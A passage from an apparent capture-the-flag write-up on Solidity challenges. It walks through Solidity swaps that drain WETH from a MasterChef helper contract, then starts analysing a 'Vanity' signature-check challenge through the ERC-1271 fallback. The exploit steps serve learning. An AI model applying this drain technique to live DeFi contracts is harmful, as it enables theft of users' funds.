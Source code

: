 This will add the 10 ether worth usdc to Masterchef contract.

Same way we swap weth for dai to our contract.

```solidity
      path[0] = address(weth);
      path[1] = dai;
       router.swapExactTokensForTokens(
           10 ether,
           0,
           path,
           address(this),
           block.timestamp
       );
```

Now we have 10ether worth DAI in our attacker contract . 10 ether worth WETH in MasterChef contract and 10ether worth USDC in MasterChef contract.

So if we call the swapTokenForPoolToken using poolId as 1 and token as DAI with the amount of the DAI ,

```solidity
mcHelper.swapTokenForPoolToken(1, dai, ERC20Like(dai).balanceOf(address(this)), 0);
```

This will drain the weth in the Masterchef contract.

## VANITY :

```solidity
 function solve(address signer, bytes memory signature) external {
        require(SignatureChecker.isValidSignatureNow(signer, MAGIC, signature), "Challenge/invalidSignature");

        solve(signer);
    }


  function solve(address who) private {
        uint score = 0;

        for (uint i = 0; i < 20; i++) if (bytes20(who)[i] == 0) score++;

        if (score > bestScore) bestScore = score;
    }
```

To solve this challenge we need to pass a signature check and the signer address should have 16 0s in it.

By checking the `isValidSignatureNow` function.

```solidity
  function isValidSignatureNow(
        address signer,
        bytes32 hash,
        bytes memory signature
    ) internal view returns (bool) {
        (address recovered, ECDSA.RecoverError error) = ECDSA.tryRecover(hash, signature);
        if (error == ECDSA.RecoverError.NoError && recovered == signer) {
            return true;
        }

        (bool success, bytes memory result) = signer.staticcall(
            abi.encodeWithSelector(IERC1271.isValidSignature.selector, hash, signature)
        );
        return (success && result.length == 32 && abi.decode(result, (bytes4)) == IERC1271.isValidSignature.selector);
```